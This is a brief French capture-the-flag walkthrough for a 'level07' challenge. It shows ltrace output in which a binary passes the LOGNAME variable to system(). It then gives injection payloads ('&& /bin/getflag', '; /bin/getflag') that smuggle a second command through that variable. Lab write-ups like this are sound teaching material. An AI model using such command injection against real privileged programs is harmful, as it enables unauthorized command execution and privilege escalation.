 - `ltrace ./level07`
<pre>
__libc_start_main(0x8048514, 1, 0xff981484, 0x80485b0
getegid()                                                                              = 1000
geteuid()                                                                              = 1000
setresgid(1000, 1000, 1000, 0xf7d95d15)                                                = 0
setresuid(1000, 1000, 1000, 0xf7d95d15)                                                = 0
<strong>getenv("LOGNAME")                                                                      = "alarm"</strong>
asprintf(0xff9813d4, 0x8048688, 0xff982d18, 0xf7d95d15)                                = 16
<strong>system("/bin/echo alarm ")</strong>
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
</pre>
- On peut faire une injection dans la commande avec la variable **LOGNAME**
- On y injection donc getflag pour recuperer le flag
 - `LOGNAME="&& /bin/getflag"` ou `LOGNAME="; /bin/getflag"`
